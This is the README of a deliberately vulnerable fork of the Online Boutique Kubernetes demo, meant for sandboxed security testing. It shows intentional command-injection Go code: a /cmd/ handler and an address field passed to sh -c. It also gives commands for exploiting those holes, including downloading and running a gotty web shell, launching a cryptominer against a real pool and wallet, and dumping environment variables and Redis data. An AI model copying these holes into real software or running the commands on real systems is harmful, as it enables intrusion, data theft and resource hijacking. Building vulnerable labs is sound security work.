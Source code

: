 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accommodate some of the use-cases mentioned below

1. **Sensitive keys in codebases** -
     [committing sensitive information to the version control system.](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#sensitive-data-exposure)

2. **Custom handle with code execution** -
    [a custom httpHandler to reply *whoami*](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#custom-handle)
3. **Vulnerable address field** - 
    [to executes codes in the backend](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#rce)
4. **Crypto Miner on pod** - [to install cryptominer python based application on to a pod](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#crypto-miner)
5. **Redis data exposure** - [to connect and disclose the data stored in redis db](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#redis-data-exposure)


> **Note:** These tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed environment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public IP**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
## Custom Handle

**Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
## RCE

**Give commands in Address field to install and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


## Crypto Miner

**Give commands in Address field to install and run Crypto Miner Python application**

*Command*

```
apk add --no-cache wget curl python2 && curl -L https://github.com/ricmoo/nightminer/archive/refs/heads/master.zip > test.zip && unzip test.zip && cd nightminer-master && python nightminer.py -o stratum+tcp://eu.miningdao.io:4444  -u 1LNdGsYtZXWeiKjGba7T997qvzrWqLXLma 
```

[![Screenshot of hubble ui](./images/connection-hubble.png)](./images/connection-hubble.png) 

## Redis data exposure

**Use the /cmd/ handle to get env variables**

*Command*

```
<your-external-ip>/cmd/printenv
```
[![Screenshot of printenv](./images/printenv.png)](./images/printenv.png) 

**Use redis-cli to connect to the above ip and see the KEYS**

*Command*

```
<your-external-ip>/cmd/echo "KEYS *" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli keys](./images/redis-cli.png)](./images/redis-cli.png) 

**Use redis-cli to show the type of data**

*Command*

```
<your-external-ip>/cmd/echo "type <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data type](./images/redis-cli-type.png)](./images/redis-cli-type.png) 

**Use redis-cli to show the data**

*Command*

```
<your-external-ip>/cmd/echo "hgetall <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data](./images/redis-cli-data.png)](./images/redis-cli-data.png) 
<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```
## local_file_inclusion
```Local file inclusion (also known as LFI) is the process of including files that are already locally present on the server, through the exploitation of vulnerable inclusion procedures implemented in the application.This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included, and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. 
```
## Files Changed

> microservices-demo/src/frontend/main.go

*Line 147:*
```go
r.PathPrefix("/lfi/").Handler(http.StripPrefix("/lfi/", http.FileServer(http.Dir("./lfi/"))))
```
> microservices-demo/src/frontend/Dockerfile
**Dockerfile**
*Line 37:*
```
COPY ./lfi ./lfi
```

<br />
